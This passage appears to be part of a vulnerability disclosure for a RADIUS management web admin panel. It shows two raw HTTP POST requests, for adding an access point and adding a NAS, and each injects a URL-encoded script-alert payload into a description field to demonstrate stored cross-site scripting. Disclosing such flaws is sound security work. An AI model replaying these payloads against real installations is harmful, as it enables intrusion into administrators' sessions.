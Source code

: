```http
```

### Adding Access Points

```http
POST /admin.php?cont=store_ap HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/admin.php?cont=new_ap
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

​enable=1&name=name&ip=192.168.1.254&accessmode=0&community=Name&apiusername=Name&apipassword=Name&apiver=0&description=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&Submit=Store+AP&id=
```

### Adding NAS

```http
POST /admin.php?cont=store_nas HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/admin.php?cont=new_nas
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=Name&nasip=192.168.1.198&type=0&secret=Name&coamode=0&apiusername=&apipassword=&apiver=0&descr=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&Submit=Add+NAS
```
